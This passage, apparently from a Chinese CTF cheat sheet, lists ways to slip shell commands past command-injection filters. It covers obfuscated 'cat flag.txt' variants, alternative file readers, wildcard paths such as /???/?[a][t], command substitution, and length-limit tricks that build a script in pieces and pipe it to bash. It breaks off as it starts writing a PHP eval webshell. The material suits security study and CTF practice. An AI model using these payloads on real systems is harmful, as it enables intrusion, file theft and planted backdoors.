 ```
ca$1t fl$1ag.t$1xt
```

** 读文件绕过 **

```
(1)more:一页一页的显示档案内容
(2)less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页
(3)head:查看头几行
(4)tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
(5)tail:查看尾几行
(6)nl：显示的时候，顺便输出行号
(7)od:以二进制的方式读取档案内容
(8)vi:一种编辑器，这个也可以查看
(9)vim:一种编辑器，这个也可以查看
(10)sort:可以查看
(11)uniq:可以查看
(12)file -f:报错出具体内容
```

** 通配符绕过 **

/???会去寻找 / 目录下的三个字符长度的文件，正常情况下会寻找到/bin，然后/?[a][t]会优先匹配到/bin/cat,就成功调用了cat命令，然后后面可以使用正常的通配符匹配所需读的文件，如flag.txt文件名长度为8，使用8个?，此命令就会读取所有长度为8的文件。

```
/???/?[a][t] ????????
```

** 命令嵌套 **

```
echo "result:`whoami`"
echo "result:$(uname -a)"
```

** 长度绕过 **

1. 使用>>绕过长度限制
使用>>每次添加一部分命令到文件中

```
echo -n "cmd1" > r;echo -n "cmd2" >> r;echo -n "cmd3" >> r;echo "cmd4" >> r;
```

然后使用cat r | bash执行命令

使用换行执行和ls -t绕过长度限制
linux中，文件中的命令如果需要换行书写，需要在前一行末尾增加\，如文件a中有

```
ca\t flag.t\xt
```

使用sh a即可执行命令cat flag.txt

2. 15位可控字符下的任意命令执行

如需执行 echo \<?php eval($_GET[1]);?\>>1
